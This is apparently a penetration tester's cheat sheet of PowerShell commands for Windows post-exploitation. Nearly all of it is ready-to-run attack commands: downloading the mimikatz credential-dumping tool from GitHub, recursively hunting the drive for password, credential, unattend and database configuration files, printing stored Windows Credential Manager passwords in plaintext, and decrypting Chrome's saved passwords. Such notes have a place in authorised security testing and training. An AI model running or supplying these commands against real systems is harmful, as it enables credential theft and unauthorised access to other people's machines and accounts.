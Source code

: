 ### Examples

[Basic introduction](https://www.varonis.com/blog/powershell-for-pentesters)

[25 commands - some below](https://www.infosecmatter.com/powershell-commands-for-pentesters/)

### *Commonly used*

### Download mimikatz (remember to use 'raw' not 'blob'):
    Invoke-WebRequest -Uri https://github.com/ParrotSec/mimikatz/raw/master/x64/mimikatz.exe -OutFile mimdld.exe

### *Locating files with sensitive information*

### Find potentially interesting files

    gci c:\ -Include *pass*.txt,*pass*.xml,*pass*.ini,*pass*.xlsx,*cred*,*vnc*,*.config*,*accounts* -File -Recurse -EA SilentlyContinue

### Find credentials in Sysprep or Unattend files

    gci c:\ -Include *sysprep.inf,*sysprep.xml,*sysprep.txt,*unattended.xml,*unattend.xml,*unattend.txt -File -Recurse -EA SilentlyContinue

### Find configuration files containing “password” string

    gci c:\ -Include *.txt,*.xml,*.config,*.conf,*.cfg,*.ini -File -Recurse -EA SilentlyContinue | Select-String -Pattern "password"

### Find database credentials in configuration files

    gci c:\ -Include *.config,*.conf,*.xml -File -Recurse -EA SilentlyContinue | Select-String -Pattern "connectionString"

### Locate web server configuration files

    gci c:\ -Include web.config,applicationHost.config,php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -EA SilentlyContinue

### *Extracting credentials*

### Get stored passwords from Windows Credential Manager
Requires the CredentialManager PowerShell module:
    
    Get-StoredCredential | % { write-host -NoNewLine $_.username; write-host -NoNewLine ":" ; $p = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($_.password) ; [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($p); }

### Dump passwords from Google Chrome browser

    [System.Text.Encoding]::UTF8.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($datarow.password_value,$null,[System.Security.Cryptography.DataProtectionScope]::CurrentUser))
